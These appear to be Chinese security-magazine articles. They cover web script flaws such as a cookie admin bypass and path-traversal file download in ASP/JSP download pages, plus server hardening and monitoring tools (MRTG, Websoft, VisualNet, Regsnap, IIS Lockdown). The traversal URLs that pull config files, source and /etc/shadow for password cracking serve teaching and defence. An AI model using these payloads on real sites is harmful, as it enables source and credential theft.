这里暂不讨论将密码和管理员名称保存在 `smembername.cgi` 下是否安全。程序首先从 Cookie 中提取用户名和密码，还有用户头衔，然后打开以这个用户名为名的文件，提取保存在里面的 Admin 用户名、密码和头衔，分别给 `$name`、`$password` 和 `$code`，然后对这三者和输入的进行比较，都一样才可进入管理页面。好像没什么错误，但那个 IF 语句可能形同虚设：如果 Cookie 中用户名和密码都为空，那么 IF 这段语句可能根本不会被执行。这里更关键的是头衔值（VIP）由用户提交，可在浏览器中直接指定 `vip=super`，从而绕过管理员校验。这类验证不完全、参数比对不严谨的问题，是 Web 入侵中常见的小技巧。

这里一路说下来，我们应该注意到，思维的拓展往往来自经验。很多时候并不是“想不到”，而是实践不够。经验来自于实战。

## 服务器设置

不要让你的 Web 以管理员权限运行。IIS 默认设置通常是 GUEST（低权限），Apache 常见为 `uid=99;nobody`。若目录权限和服务器配置合理，即使攻击者获得 WebShell，也不一定能造成大范围破坏；反之若给了 ROOT 级权限，服务器一旦沦陷基本就是整体失守。

目录设置同样关键：不要把所有目录都赋予脚本执行权限。尤其是用户可控目录（如上传目录），如果写入的 Shell 位于不可执行目录中，则无法运行。

文章末尾给出若干学习建议：技术学习不仅是“会用”，更重要是建立思维方式与安全意识。

## 长度检验

对于攻击者而言，很多时候 D.O.S（拒绝服务攻击）是首选。对用户输入长度的校验非常重要，如 `$ENV{CONTENT_LENGTH}`。若没有输入长度限制，攻击者可提交大量垃圾数据导致拒绝服务，甚至通过垃圾文件填满磁盘。历史上也出现过通过高频调用数据库造成数据库瘫痪的案例。

- 1. 学习时多问自己：我真的明白了吗？
- 2. 发现新技术或方法时，及时分享与交流。
- 3. 明确自己在学什么：是技术本身，还是技术思维。
- 4. 积累和沉淀是前进的基础。
- 5. 少说废话，避免被无关信息干扰（切记）。

## 脚本攻击防范（SCRIPT ATTACK DEFENCE）

| 适合读者 | 脚本爱好者、入侵爱好者 |
|---|---|
| 前置知识 | ASP 基本语法 |
| 难度等级 | 中 |

现在网站开发的主流程序是 IIS 上特有的 ASP、ASPX 和其他系统上的 PHP、CGI 和 JSP。由于它们开发的程序各具特色，性能各有千秋，不少有经验的程序员都会选择自己擅长的程序引擎。因为各种程序都有自己“天生”的漏洞，作为负责的程序员应做好程序的安全检验。但有很多程序员在编写担任下载服务的程序时犯了一个很低级的错误，这一类漏洞一旦成功利用，就可以随意下载网站内的任何一个文件，这就等于将整个网站暴露在网络之中。首先看一下 ASP 形成的下载漏洞，下面是一个企业产品的广告下载页面……安全隐患产生了，如图 1 所示。

图 1

看到图里的状态栏了吗？它提示链接是 `down.asp?id=FilePath_2004116154839.rar`。从扩展名 `.rar` 可看出该 ID 接受的并不只是数字，而是合法文件名。若改成其他文件名会报“文件无法打开”，这进一步说明其通过 **ADODB.Stream** 组件实现下载服务。只要构造特殊 ID 参数，就可能下载站点任意文件，甚至同服务器其他盘符文件。

```text
http://www.xxx.com/gb/down.asp?id=../admin/conn.asp
```

终于下载到了下载服务的 ASP 文件。下面分析程序为何出现该下载漏洞，以下是相关源代码片段。

```asp
Fname = Trim(Request.QueryString("ID"))
if Fname<>"" then
  Response.Buffer = True
  Dim strFilePath, strFileSize, strFileName
  Const adTypeBinary = 1
  strFilePath = "/pics/" & Fname
  strFileSize = Request.QueryString("Size")
  strFileName = NewFname
  Response.Clear
  Set objStream = Server.CreateObject("ADODB.Stream")
  objStream.Open
  objStream.Type = adTypeBinary
  objStream.LoadFromFile Server.MapPath(strFilePath)
  strFileType = lcase(Right(strFileName,4))
end if
```

一个小小逻辑错误导致可随意下载网站文件，甚至 ASP 文件（源代码泄露后风险更大）。

直接生成链接交由系统处理并不总可行。若希望“可下载但不易保存”，一些站点会使用特殊 ASP 下载程序：点击链接后读取站内 MID 文件，并通过 `Response.ContentType = "audio/midi"` 返回流，让浏览器按媒体流播放而非普通文件保存，以保护资源不被直接下载。

图 2

图中选中的一行是试听页 HTML 源码中的 MID 流媒体链接。IE 打开 URL 会自动启动播放器播放。播放器标题与地址栏中的 ASP 文件名前缀一致，说明是 ASP 动态生成文件流。继续可在 HTML 代码中看到可疑 URL（见图 3 下划线处）。

```html
<body bgcolor="#FFFFFF" text="#000000" leftmargin="0" topmargin="0">
<bgsound src="/cgi/play?mg.asp?milk=EXWJJ.../pic/1002/&milk2=mid" loop="-1">
<table width="500" border="0" cellspacing="0" cellpadding="0" height="320">


```

图 3

“milk1” 中的 `/pic/1002/` 像路径，“milk2” 中的 `mid` 像文件类型，进一步可用于验证参数处理是否存在漏洞。

实战这点，做点手脚，把“milk2”的值改成“asp”，如图4所示。

其中变量“exect”是取 URL 里的 milk2 的值，这个 milk2 是负责文件扩展名的数值传递。既然是直接读取 URL 里的参数，且没有做任何的过滤，我们可以自定义文件的扩展名和要下载的文件名（可怕了吧！）

`midifile=Server.MapPath(path&smsid&"."&exect)` 是通过 `Server.MapPath` 函数取得目录、文件物理路径，同样是可以通过“../../”来跳出的！
看到图里的错误提示了吧？它说找不到“123244.asp”文件！如果无限写入“../”，它就能真正曝出网站的根路径了，如图5所示。
如果我再构造成其他的文件，不就是可以下载了吗？在“milk2”变量后面加足够的“../../”，再加上“index.asp”构成这样的 URL：`milk1=/pic/1003/&milk2=../../../../../index.asp`，它就可以下载到网站里的 ASP 文件了，如图6所示。
是不是有点不可思议呢？不过当下载完之后，播放器就会自动启动，之后就是报告文件格式不正确！当然啦，因为那是真正的 ASP 源文件，又怎可能是音乐文件呢？难道要在缓存里找吗？其实只要用 FlashGet 就可以方便下载，如图7所示。
是不是觉得这类漏洞很容易利用呢？下面的代码就是从这个手机图铃站里下载的，我们一起来看看吧！

```asp
<%
smsid=iddecode(trim(request("milk")))
path=trim(request("milk1"))
exect=trim(request("milk2"))
```

```asp
response.write midifile
Dim objStream
Set objStream = Server.CreateObject("ADODB.Stream")
objStream.Type = adTypeBinary
objStream.Open
objStream.LoadFromFile midifile
Response.Expires = 0
Response.Buffer = TRUE
Response.Clear
Response.ContentType = "audio/midi"
Response.BinaryWrite objStream.Read
Response.Flush
Response.End
Set objStream = Nothing


```

这两个例子都告诉我们，在 ASP 编程序里同样都是通过 `Server.MapPath` 来取得文件的物理路径，而且在这个过程中程序员并没有做什么过滤等安全处理，导致了要安全反不安全的问题的出现。

ASP 程序的漏洞就是这样，至于 JSP 呢？虽然 JSP 在安全方面比 ASP、CGI、PHP 安全性高得多，但如果程序员一时疏忽，同样可以构成安全问题。如果是在 *nix 上的话，威胁就更大了，因为 *nix 目录是离散型的。下面就是一个很好的例子，如图8所示。
大家有没有注意到地址栏上加了底线的那段东西呢？有经验了吧，看得出来我们要下载的文件就是地址栏指定的那个，它是交由当前目录上“DownServlet”下载模块【对方主机服务器模块是 *NIX+Apache Tomcat/5.0.9+JSP】来完成整个下载过程的。看完前面的例子到这里应该有启示了吧？好，看看能不能下载它的“index.jsp”首页，如图9所示。
图9

整个网站的首页“index.jsp”全曝出来了。由于该网站是与里面的论坛整合的，看起来可能有点乱，但我们只要留意 JSP 文件里的文件头引用，就可以顺藤摸瓜找到真正有用的全局变量文件。图里的“global.jsp”就是整个站的全局变量，里面有访问数据库的密码……

说正题，上面我说过因为 *nix 目录是离散型的，如果在微软系统上解释它的话，就是 *nix 只有一个目录，而这个目录在 *nix 上是叫根目录“/”。在微软系统上的同一个目录（同一逻辑盘或者卷）上可以用前面的方法下载……以前的 CGI 和 PHP 的最大漏洞就是出现在这个可以随意下载文件……图10就是它的威胁！
图10

连系统里有哪几个用户账号都一目了然！管理员看到也会毛骨悚然吧？如果再下载它的“/etc/shadow”文件用字典跑，密码强度不大的话，那系统就变成新的肉鸡了！……如果程序员非要写这类文件下载程序，可以建一个数据库，把文件名处理过再写入数据库里，然后通过查库来读取要下载的文件，这就可以避免这个问题。

## 简单构造验证码

大家在网上登录的时候经常会看到让你输入验证码。有的是文字的，有的是图片的……这里介绍一种简单的数字和字母随机组合并生成图片验证码的方法。

```vb
ychar="0,1,2,3,4,5,6,7,8,9,A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z"
yc=split(ychar,",")
ycodenum=4
for i=1 to ycodenum
  Randomize
  ycode=ycode&yc(Int((35*Rnd)))
next
response.write ycode
```

### 2. 生成图片

```vb
ychar="0,1,2,3,4,5,6,7,8,9,A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z"
yc=split(ychar,",")
ycodenum=4
for i=1 to ycodenum
  Randomize
  ycode=ycode&yc(Int((35*Rnd)))
next
Response.Clear
Response.ContentType="image/gif"
set obj=Server.CreateObject("shotgraph.image")
x=55
y=26
obj.CreateImage x,y,8
obj.SetColor 0,55,126,222
obj.SetColor 1,255,255,255
obj.CreatePen "PS_SOLID",1,0
obj.SetBgColor 0
obj.Rectangle 0,0,x-1,y-1
obj.SetBkMode "TRANSPARENT"
obj.CreateFont "Arial",136,18,1,False,False,False,False
obj.SetTextColor 1
obj.TextOut 5,4,ycode&" "
img=obj.GifImage(-1,1,"")
Response.BinaryWrite(img)


```

## 用 MRTG 在 IIS 6.0 上实现入侵检测
| 项目 | 内容 |
|---|---|
| 难度等级 | 低 |
| 前置知识 | 无 |

文/图 sleky

MRTG（Multi Router Traffic Grapher）是一个跨平台的监控网络链路流量负载的工具软件，目前它可以运行在大多数 UNIX 系统和 Windows NT 之上。它通过 SNMP 协议从设备得到设备的流量信息，并将流量负载以包含 PNG 格式图形的 HTML 文档方式显示给用户，以非常直观的形式显示流量负载。

或许你还不知道，MRTG 还是一个有效的入侵检测工具。入侵者扫描与破坏后都可能生成异常网络流量，虽然在一般情况下不易被察觉，但 MRTG 能通过图形化形式给管理员提供入侵信息，并可查出数周之前的入侵信息以供参考。

## 攻击行为对服务器造成的信息

- 1. 攻击者使用 CGI 漏洞扫描器对潜在 CGI 脚本扫描时，HTTP 404 Not Found errors 记录会增长。
- 2. 攻击者尝试暴力破解服务器账户时，HTTP 401 Authorization Required errors 记录会增长。
- 3. 新蠕虫出现时，某一特定协议流量会增长。
- 4. 蠕虫通过僵尸主机攻击其他服务器时，出外流量增加并增大 CPU 负荷。
- 5. 入侵者尝试 SQL injection 攻击时，HTTP 500 Server Errors 记录会增长。
- 6. 垃圾邮件发送者经中继 SMTP 服务器发送垃圾邮件时，SMTP 和 DNS lookups 流量大增，同时造成 CPU 负荷增大。
- 7. 攻击者进行 DDOS 攻击时，ICMP 流量、TCP 连接、虚假 IP、多播广播流量大增，浪费大量带宽。

总结：攻击者入侵会显著影响服务器资源，如 CPU、RAM、磁盘空间、网络连接和带宽，并可能建立后门、开放端口以及伪装行为以逃避检测。

## 攻击者使用以下的方法避免被检测

- 1. 探测扫描很长时间后，才进行真正的入侵进攻。
- 2. 从多个主机进行攻击，避免单一主机记录。
- 3. 尽量避免入侵造成的 CPU、RAM 和驱动器负荷。
- 4. 利用管理员无人职守时入侵，在周末或者节假日发起攻击。

对于 IIS 6，我们需要监视下列信息：

- 1. 网络流量（带宽、数据包、连接数量等）。
- 2. 网络协议异常错误。
- 3. 网站内外流量（包括用户权限设置、外部请求错误流量等）。
- 4. 线程和进程。

## 在 Windows 2003 下安装 MRTG

在使用 MRTG 之前，需要先在服务器里安装 SNMP 服务。可在控制面板的“添加/删除程序”中选择 Windows 组件，在“管理和监视工具”里安装“简单网络管理协议”。

安装成功后应立即进行安全配置。由于 SNMP 在网络上并非安全协议，建议通过防火墙屏蔽 161 与 162 端口并启用 IPSec；community string 建议设为只读，并避免弱口令配置。

MRTG 是一个用 Perl 编译的 C 程序，还需安装 ActivePerl 以支持脚本。可从相关站点下载 MRTG 压缩包（zip）及文中所用文件。

将 MRTG 解压到 `C:\Program Files\MRTG`，并在 `Inetpub` 下为 MRTG 建立子目录。为安全起见，不建议直接建在 `wwwroot`。随后使用 IIS 建立 MRTG 站点，可配置独立主机头和独立 IP，或在已有目录下建立合法虚拟目录。

注意，在新建立的 MRTG 站点上不要运行可执行的脚本，只提供只读访问。在 NTFS 下，要注意对用户的权限设置。如果可能的话，最好对指定 MRTG 站点的 IP 来选择特定的主机。

现在，我们就可以把配置文件放到 `C:\Program Files\MRTG\Bin` 下，并把 `index.html` 文件拷贝到 `\inetpub\MRTG` 目录下。

```bat
C:\ProgramFiles\MRTG>perl mrtg mrtg.cfg
```

如果一切正常的话，在你的 MRTG 站点下就有了一些配置文件。如果安装失败，你可以回顾一下你安装的步骤是否有错误，并参考 MRTG 的参考手册。

```bat
Param2=Param2
Uptime=Item.SystemUptime
...
@for /f "tokens=1,2,3,4" %%i in ('date /t') do ...
@logparser "SELECT COUNT(*) FROM ..."
@Echo Unknown


```

## 具体配置 SNMP 计数器
图1为我们所配置的 MRTG 及其所获得流量的截图。

尽管微软提供了 SNMP 的计数器，但是我们发现它对一些应用程序支持有些问题，而 MRTG 却能从很多的应用程序中得到消息。通过 Windows Management Instrumentation（WMI）也能得到包括所有计数器的性能信息……

```vb
Set oWService=GetObject("winmgmts:{...}\\localhost\\root\\cimv2")
set colItems=oWService.ExecQuery("SELECT ...")
For Each Item in colItems
  Param1=Param1+Item.Processes
  ...


```

因为微软的日志记录工具也非常强大，和 MRTG 的计数器配合使用，再加上免费的入侵检测系统 Snort，效果会更好。

## 最后

在你自定义的计数器完成后，通过图形化状况表就可以轻易地找出入侵者了。如果我们还想进一步了解关于 Windows 2003 Server 中的 SNMP 相关信息，可以登录 `http://snmpboy.msft.net` 进行查阅。

### Websoft 网络防护盾

蜘蛛：时代的发展使网络安全不再是神秘的技术，任何人只要稍微懂点电脑都可以学习安全技术……如果你是网络管理员，如何在上班时间内让这些有一定“武功”的同事不能做和工作无关的事呢？下面我们就给大家带来一个功能非常强大的网络管理软件——
难度等级：高  
适合对象：网络管理员

Websoft 防护盾是采用网络侦听方式安装在整个局域网内的任何一台电脑上的，通过对整个网络的 Web 访问数据的侦听，截获不良网址访问请求并中断该请求，从而实现对 Web 访问的控制。

网络管理员可以在一台电脑上实现对整个网络 Web 访问的全面控制。“Websoft 防护盾”主要由控制管理模块和日志查询模块组成……

完成。控制管理模块采用了网络数据包捕获和伪装技术，具有较强的稳定性。日志处理采用了 Microsoft Access 2000 数据库支持，从而使得用户可以对日志进行更为方便的自定义操作。

安装的过程就不介绍了，安装之后，启动系统，进行参数设置，设置好网卡、IP 地址、日志文件（你不会看见参数设置就晕吧？Websoft 防护盾的参数设置是非常简单的，大多数参数都可以直接用默认值）。
图4

接下来就让系统来帮我们完成吧！点击“获取网络信息操作”，系统就会帮我们找到整个企业局域网中的主机信息，并且将检测出所有当前处于开机状态并已经连接到网络上的电脑的 IP 地址和网卡信息，检测出来的所有电脑将会显示在界面右侧的电脑列表中。
图1

然后，将刚才所建的策略应用到网络的主机（图4）。这有点像 Windows 2000 里面的 IP 策略吧，使用起来更是得心应手！选择刚才设置的策略，将它应用到网络中的主机中，启动“访问控制”，你就可以坐着看他们在干什么了。

紧接着，你可以对这些电脑进行分组命名。分组命名随你所欲！当然，分得越清晰，就越有利于你的管理工作。分组之后就进入关键性的部分了，要进行网络管理的朋友可要睁大眼睛！
图2

想进一步查看“他们”访问的网站，启动“日志查询”即可，是不是一切都如你所愿（图5）？
图5

既然要对主机的访问进行控制，我们就要设置它的控制规则：进行网址和关键字的过滤。点击工具栏的“控制策略制定”按钮，即会弹出图2所示的窗口；点击“新建”按钮，选择弹出菜单中的“空白策略”，即可新建一个没有任何控制设置的空策略（图3）。
图3

除了“Websoft 防护盾”帮你管理计算机之外，你可以对局域网中的任何一台计算机发送信息，点击“主机操作”菜单中的“发送信息”，输入要发送的内容，点“确定”就 OK 了。
图6

Websoft 防护盾最主要的功能就在于它能对网站和关键字进行过滤，同时又可以向局域网中的任何一台主机发送信息。如果多次发送同事还不听劝，那么还可以用最狠的一招，那就是“无影脚”，直接将他踢出局域网。

## 网络管理“得心”应“手”

适合对象：脚本编写人员  
前置知识：网络管理相关知识

文／图 Chinadata

蝴蝶：网络管理是一个网管的基本责任，无论是广域网还是局域网都是一样。今天我们向大家推荐一款由国人编制的网管软件，这款软件是网管软件中比较实用的一款，能切实减轻很多网络管理人员纷繁的工作量。以后我们也会陆续地推出这样的优秀工具，希望大家喜欢！同时，如果你有什么好的程序值得推荐或者点播，请直接给我来信：email: liuliu@hacker.com.cn！

我们公司里有152个员工，计算机有80台，我的网络管理员工作就是不停地查找问题、分析问题、解决问题……一个偶然的机会，一个朋友介绍我使用 VisualNet，从此我“汗水和泪水”的工作终于一去不复返，现在我可以轻松搞定计算机的内部管理，分出更多的时间来做网络的安全维护工作。不废话了，下面和大家一起来分享 VisualNet 的强大功能。
VisualNet 不需要安装客户端，只需在管理者计算机上安装，即可对整个网络的情况了如指掌。在安装了 VisualNet 之后，先进行必要的系统配置（图1）。

设备监视配置：主要是配置设备轮询的间隔以及后台线程池的线程数。

超时设置：主要是配置 ICMP、SNMP、SOCKET 项的超时参数以及设备接口过高的报警阈值。

监视方式与优化：

- 1. 状态监视：“禁用”表示取消所有设备的状态监视，“全部监视”表示所有设备的状态，“自定义”是根据设备自己的监视配置项来决定的。
- 2. 优化策略：不使用定时监视；普通是根据特性对其监视时间上进行优化；高级则是优化程度更大，推荐使用普通。
- 3. 监视协议：目前支持 ICMP、TCP、ICMP+TCP，更多方式仍在添加中。通常推荐 ICMP+TCP。
- 4. 端口监视：“禁用”表示所有设备端口状态都不监视，“全部”表示所有设备端口状态都监视，“自定义”表示根据设备自身信息中的监视配置项来决定。
- 5. 接口监视：“禁用”表示所有设备接口状态和流量都不监视，“全部”表示所有设备接口状态和流量都监视，“自定义”表示根据设备自身信息中的监视配置项来决定。

## VisualNet 强大功能展示

- 1. VisualNet 可以对整个网段或者以一个路由设备连接整个网络，并可构建整个网络的拓扑视图。你不必知道计算机所在网络的连接情况，也不用自己来做网络拓扑视图；VisualNet 已经提供了灵活的自动发现功能，自动捕获网络连接情况，自动绘制网络拓扑视图。VisualNet 通过设备特征以及 SNMP 等多种信息准确识别各个设备的操作系统类型；如果是小型网络，它会为你发现网络内部的所有连接情况，然后添加进行管理的设备、主机、路由等（图2）。
VisualNet 的设备路由拓扑视图直观地体现设备在互联网经过的路由器以及相互的连接情况，便于故障追踪以及状态监控和管理。该拓扑是以管理端为出发点观察各个设备的路由连接情况（图3）。
“设备互联拓扑视图”与“路由拓扑”不同的是，设备互联拓扑表现的是路由器、交换机以及其他所有网络设备的接口分布，以及它们所对应的所有设备的连接关系。VisualNet 中引入了灵活的设备类型管理机制，使得设备可以分类管理、监视和呈现。随着各种新设备的使用，用户还可以在系统的设备库中添加自定义的新设备，包括呈现图标等。VisualNet 中通过维护一个用户可以扩充的端口类型类来实现对网络设备端口服务的监测，完全可以根据用户的实际情况修改和扩充缺省的端口库，实现定制化的端口服务监测。同时，在 VisualNet 中还引入了端口服务确认机制，实现对端口服务类型的确认（图4）。
图4

VisualNet 除自身具有强大的网管管理功能外，还嵌入自带大量的网络测试分析工具，同时可以平滑方便地嵌入其他网管系统或用户自己开发的工具集，使你在网管过程中得心应手。图5是在网管平台上嵌入微软终端服务客户端的示范（是不是很方便啊？）。
图5

你可以根据设备的分类、地理位置、项目分组、部门分类、机构分类以及业务情况等自定义视图，在不同视图中可以随意增加设备节点，可以说视图成了具有一定意义的设备的一个集合。VisualNet 中通过设备以及接口同用户的关联，实现了网管平台上的资产管理和用户管理，不管是在企业还是在 IDC 都可以灵活地实现这一功能。VisualNet 既可以全局地配置对设备的监视方式，也可以对单个设备进行单独的配置，可以实现对任意设备的设备状态、服务端口状态、接口状态的灵活监视。
图6

VisualNet 提出了设备后台监视的优化策略，改变了原来盲目的定时发送大量包来检测设备状态的方式。VisualNet 将系统底层产生的种种网络状态变化通过灵活的事件定义呈现出来，可以根据底层网络设备的分类、型号、IP 以及触发事件的类型来自定义事件的名字、级别，以及配置相应的报警方式，真正实现针对设备一级的事件灵活配置（图6）。

### 3. 报警方式

报警方式是事件的表达方式，VisualNet 可以根据所配置的各个事件灵活地提供声音、节点颜色变化、邮件、外部程序、WinPop，以及短消息等多种报警方式，准确无误地将事件呈现出来。事件浏览器使您可以方便地查看任意设备在任意时间段内所发生的事件信息（图7）。对管理操作、管理事件、故障事件进行分门别类的记录，并要求管理员对所发生的各种事件进行确认。VisualNet 还提供了强大、灵活的日志库管理功能。
图7

网管日志是分析网络安全性能的重要依据，是对网络管理进行安全审计的关键数据。在网络性能管理上，VisualNet 提供了对设备性能的监视，包括设备的时延、丢包率、带宽检测、CPU 利用率、内存利用率以及磁盘空间利用率等多种信息，使网管员能直观地了解设备当前的运行情况，同时可以为设备配置性能参数阈值，以配合事件管理器产生相应的事件。设备实时监视分为设备时延监视和可达该设备的带宽监视。对接口的流量监视主要体现在交换机、路由器等网络设备，网管员可以在设备接口视图中直观地看到设备接口的输入、输出流量和使用率，并为其配置报警阈值。接口性能管理配合报表系统可以产生接口流量报表。通过该方式可以直观地发现病毒风暴以及异常黑客攻击、高带宽占用等情况（图8）。

### 4. 值得注意的功能

值得大家注意的是，该软件可以实时监测接口的输入和输出流量，以及相应的输入和输出带宽利用率，轻松实现对网络流量的监视以及对网络故障的侦测和判定。
图8

VisualNet 可以监测运行系统本身的运行情况，包括网络状况、CPU 使用率、内存使用率等，以此来调整自身的运行参数，确保稳定运行。除上面我给大家介绍的功能之外，VisualNet 提供了对网络安全的监护和对常见网络安全攻击的检测，包括了由原 ARPKiller 改编的 AntiSniffer（检测局域网内哪些机器开启了 Sniffer）、扫描监视、常见漏洞扫描等工具。VisualNet 提供的实时监测和事件浏览器对网络的运行情况提供了重要的安全依据，通过对实时数据流量和事件浏览器的报警，有利于我们对网络安全做出必要的安全防范。VisualNet 是我用过的同类软件中做得比较好的一款，不敢独享，立即献上。如果你发现还有更好的工具可以在《黑客防线》上和大家一起交流，就让我们共同进步！

| 适合读者 | 普通网络用户 |
|---|---|
| 前置知识 | 网络安全常识、系统注册表常识 |

蝴蝶：编辑部里的大锅、小编都看我啃鸡腿眼馋，所以以 Wtf 为首的“鸡腿别动队”正式成立，后面刘流、脚本小子等一干人等积极加入！每天就绕着我的包转，可是小妹也不好意思的！哼！我抱着包上班！他们看一计不成，又生一计：给我电脑种后门！天啊！大家没看见那个阵势——网络上最流行的、功能最强大的、他们自己写的、内核级的后门全来了！我一离开电脑就不安全，后来小妹的玉照还给他们弄去了！55555……不过幸好 icefine 是个“硕果仅存”的好人，他给小妹推荐了个监视系统的工具，嘿嘿，这下我再不怕“鸡腿别动队”了！

## Regsnap，完全监控你的系统

作为电脑使用者，在安装完一个软件之后，有时需要知道该软件的文件都存放在哪里，有没有将文件存放在系统目录，以及软件修改了注册表中的键项等等。而这些相关的信息软件又没有提供说明，这让管理员非常头痛。

作为一个网络管理员，需要及时知道服务器最近有没有遭受黑客的入侵，是否有黑客工具在系统当中存放。而现在恶意程序的隐藏技术非常高明，常常让众多管理员疲于奔命仍应付不过来。这时候，如果管理员有一个工具能够帮助查询当前系统跟以前系统发生了哪些变化以及了解具体的变动内容的话，就可以大大提升工作效率，减轻管理员负担。鉴于这些原因，在这里向大家推荐一个优秀的系统监视工具——Regsnap。

Regsnap 可以非常详细地向你报告注册表及其他与系统有关目录文件的变化情况。利用 Regsnap 的比较功能，可以向你报告注册表中被修改了哪些键以及修改前、后的值各是多少。另外，Regsnap 除了可以向你报告注册表的变动内容外，它还可以报告系统的其他情况：如系统目录和系统的 system 子目录下文件的变化情况，包括删除、替换、增加了哪些文件；Windows 的系统配置文件 win.ini 和 system.ini 的变化情况，包括删除、修改和增加了哪些内容；自动批处理文件 autoexec.bat 是否被修改过。该软件还可以在需要的时候方便地恢复注册表。

可以直接调用 regedit 程序查看或修改注册表。下面我们具体来看怎么使用它：Regsnap 在安装完成后默认会自动启动程序，并询问用户要做什么（图1）。

由于我们是第一次使用 Regsnap，所以现在还没有可以做比较的“快照”。在这里建议对当前机器新建一个快照，“拍”下当前机器注册表及系统目录的状况，以方便日后管理、维护时作为依据、比较时使用。所以在图1中按“新建快照”按钮创建一个新的快照，打开一个如图2的对话框：
图2
图1

由于我们是第一次使用，所以建议对系统做一次全面的拍照。Regsnap 提供的拍照选项较为全面，一般情况下按默认选中的选项即可。当然，如果你觉得监视一些关于 DLL 文件的版本信息会更好的话，也可以选上“保存 DLL 版本信息”前面的框。如果需要对这次拍的照进行备注，如备注说明是第一次拍照等，可以在“你可以为此快照输入一个注释”处填写说明，下面的空白框输入要做备注的内容。现在按“确定”按钮就开始拍照，如图3所示。Regsnap 在拍照的过程中会显示当前工作的百分比及捕获的项数。在捕获完成后 Regsnap 会给出一个简单的报告，报告捕获到的总结果，如图4所示。
图3
图4

在过一段时间之后，我们在系统中安装了一些软件并复制一些文件到系统目录中。现在我们来看看 Regsnap 是否能够如刚才所说的那样将注册表及系统目录的变化告诉我们。现在重复上面提到的步骤，再给系统拍照，拍照后的结果如图5所示。
图5

从图4和图5显示的结果来看，我们在新拍的照中比原来拍的照在 c:\winnt\system32 增加了不少文件，注册表也发生了变化。按“确定”按钮后，再保存结果。

现在我们来将第二次拍照的结果跟刚拍照的结果做一次比较，看看注册表都增加、修改了哪些键项及系统目录都增加了哪些文件。按 Regsnap 工具栏的左六按钮，这时弹出一个比较快照的对话框，如图6所示。
图6

如果之前系统有拍过照且保存在本地机器，Regsnap 会自动获取以前保存的快照文件并出现在比较快照所要进行比较的文件列表中。如果该快照文件不是我们需要的，我们也可以根据需要重新选择要做比较的快照文件。然后按“确定”按钮就可以开始比较了。

但有些时候我们只需要对注册表中做一部分比较时，可以按“高级选项”按钮来排除掉一些不必要的子键进行比较。现在我们先来看看这个功能，按“高级选项”按钮弹出一个高级选项对话框。在这里我们只需要将一些不需要做比较的子键列入到该列表中，Regsnap 在开始比较的时候就会自动跳过这些指定的子键。现在按“添加”按钮添加不需要做比较的子键，然后在弹出的对话框中输入不需要进行比较的子键，如图7所示。

按“确定”按钮返回程序主界面，按 Regsnap 工具栏左边第三个按钮将刚拍下来的照保存起来。

按“确定”按钮回到比较快照界面，在“报告选项”中，我们可以选择将这两个要进行比较的文件的比较结果只显示修改过的注册表键名，还是显示修改前和修改后的键名及键值。如果选择后者，则需要两个快照都是带键值保存的。在“输入文件名”处可以输入比较结果要保存的文件名，以及在输出文件格式中可以选是以纯文本格式输出还是以 HTML 文件格式输出，非常方便、简单。现在按“确定”按钮开始进行比较。比较完成后 Regsnap 会自动生成一张比较结果的报表。
图7

从图8可以非常清楚地看到 Regsnap 列出了两个快照比较后的不同地方：有注册表被删除、修改及增加的数量及修改的键项名称等；还有系统目录增加、修改、删除的文件名称也都一一被列了出来，而且非常清楚、明了。我们还可以清楚地看到系统目录中增加了多少个文件以及所增加的文件名称，都能够一目了然。
图8

如果管理员在系统刚安装配置完成时给系统拍一次照并保存起来，在以后的维护过程中需要检查系统是否存在后门或其他情况时，再利用 Regsnap 给系统拍照，再跟原来保存的文件做比较，不想发现问题都难。

Regsnap 除了上面提到的功能外，还可以查看当前机器的名称及登录的用户名，只需按“工具”菜单下的“显示本地 PC 名称”选项，就显示当前机器的名称及登录的用户名。按“工具”菜单下的“注册表编辑器”就会打开系统的注册表编辑器，跟在“运行”菜单下输入 regedit 打开的注册表编辑器完全一样。

好了，关于 Regsnap 的介绍就到这里。Regsnap 的确是一个非常不错的注册表、系统目录监视工具。如果管理员能够对该工具加以利用的话，维护系统将不再是一件难事；而对程序调试员来说，Regsnap 也是一个非常好用的工具和帮手。

## IIS Lockdown + URLScan = 保健 IIS 安全

文 / Squ4L1

蝴蝶：Web 服务器的安全一直是人们关注的问题，从早期的 UNICODE 到近期国内流行的 SQL 注入，Web 的攻防一直是安全界的一道风景线，这里我们介绍两种针对 IIS 来进行防御的工具，让一切变得更简单！……

作为一种很流行的服务器，在过去几年里，微软的 IIS 已经成为了攻击者经常选择的目标。它一直为像 $DATA 这样的泄露源代码漏洞、例程 showcode.asp 暴露信息漏洞，以及很多缓冲区溢出漏洞所困扰。像红色代码和 NIMDA 这样对 Internet 危害很大的病毒就是利用了 IIS 的漏洞。这些漏洞也让人们，当然还有微软自己，意识到了 Web 服务器特别是 IIS 的安全。因此微软发布了两个工具（IIS Lockdown 和 URLScan）来解决 IIS 6.0、IIS 5.0 以及早先版本中与安全相关的配置问题。

## IIS Lockdown

大多数 Web 服务器的默认安装并不能满足所有管理员对于安全的需求，Microsoft 的 IIS（特别是 5.0 和 5.0 以前的版本）也不例外。默认情况下的安装中包含了一些作为例程的脚本、最小的文件系统许可安全性以及不少多余的文件句柄，厂商采用这种默认安装策略的出发点在于为管理员提供更大的灵活性，来帮助他们根据自身机构的业务特点进行自定义的安全配置。IIS 的管理员可以通过对服务器进行手工配置，或者使用 Microsoft 的 IIS Lockdown 工具，来完成默认安装后的系统安全加固工作。

IIS Lockdown 提供了一个中央 GUI 界面，让用户可以解除某些可能会对服务器和服务器应用程序造成安全威胁的目录、方法以及服务的映射。下面我们介绍一些这个工具提供给用户的初级配置策略。

初级用户可以考虑采用 IIS Lockdown 提供的许多默认模板中的一个来对服务器进行加固。这其中包括小型业务服务器 2000、Exchange 服务器、FrontPage 服务器扩展、动态 Web 服务器和静态 Web 服务器。基于选定的模板，IIS Lockdown 会自动选择保留合适的 ISAPI 并进行映射。注意的一点是，IIS Lockdown 只是移除这些 ISAPI 扩展的映射，它不会删除或者注销这些 DLL，因此只需要在 Web 服务器上重新运行 IIS Lockdown 就可以将服务器配置还原为初始状态。IIS 6.0 在安装的时候并不会包括那些多余的扩展，除非你重新对其进行配置，否则它只支持静态页面。

对系统熟悉的用户可以选择手工配置这些 IIS Lockdown 提供的安全设置。这些配置包括如下内容。

### 1. 去掉不需要的服务

- IIS 允许 3 种基本的服务：Web 服务、FTP 服务和 SMTP 服务。
